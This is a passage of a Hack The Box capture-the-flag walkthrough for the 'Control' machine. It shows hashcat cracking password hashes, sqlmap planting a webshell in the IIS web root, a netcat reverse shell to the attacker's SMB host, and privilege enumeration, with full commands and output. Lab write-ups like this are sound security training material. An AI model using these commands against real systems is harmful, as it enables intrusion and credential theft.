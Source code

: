 
7. Add the hashes to a file and crack them using hashcat.
    root@p3:/opt/htb/machines/control# hashcat -a0 -m300 hashes.txt /usr/share/wordlists/rockyou.txt  -o -hashes-cracked.txt
    root@p3:/opt/htb/machines/control# cat ./-hashes-cracked.txt
      0e178792e8fc304a2e3133d535d38caf1da3cd9d:l33th4x0rhector
      cfe3eee434b38cbf709ad67a4dcdea476cba7fda:l3tm3!n

    We find the credentials for hector:l33th4x0rhector and manager:l3tm3!n

    NOTE: l3tm3!n is not normally part of rockyou.txt, I found this hash when cracking via sqlmap and crackstation.net, and then
          added it to my rockyou.txt


8. We have now enumerated thoroughly and two sets of credentials. Using sqlmap we can upload files to the remote host, however
   we don't fully know the root directory of the webserver. Googling this we find that the default web root directories for windows
   are c:\inetpub\wwwroot\, c:\xampp\htdocs\, and/or c:\wamp\www.

   Upload a webshell to one of the directories to see if the victim use a default file structure.

   root@p3:/opt/powercat# sqlmap -u http://control.htb/view_product.php --data productId=1 --file-write="/opt/shells/webshell.php" --file-dest="C:/inetpub/wwwroot/p3.php"
     ..
     [14:24:21] [INFO] the local file '/opt/shells/webshell.php' and the remote file 'C:/inetpub/wwwroot/upload.php' have the same size (7206 B)

   Upload was successfull and we can confirm that C:/inetpub/wwwroot/ is the correct directory. We can now reach the webshell;
    http://control.htb/upload.php


9. Just like the box Sniper we setup a reverse shell using nc64.exe on our local smb share (pub-share).

    Webshell: //10.10.14.3/pub-share/nc64.exe 10.10.14.3 4488 -e powershell

    root@p3:/opt# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.3] from (UNKNOWN) [10.10.10.167] 51674
      Windows PowerShell
      Copyright (C) Microsoft Corporation. All rights reserved.

      PS C:\inetpub\wwwroot> whoami
        nt authority\iusr
      PS C:\inetpub\wwwroot> whoami /priv
        Privilege Name          Description                               State
        ======================= ========================================= =======
        SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
        SeImpersonatePrivilege  Impersonate a client after authentication Enabled
        SeCreateGlobalPrivilege Create global objects                     Enabled


10. With the privileges we can execute commands as user Hector, including setting up a new reverse shell with escalated privs.
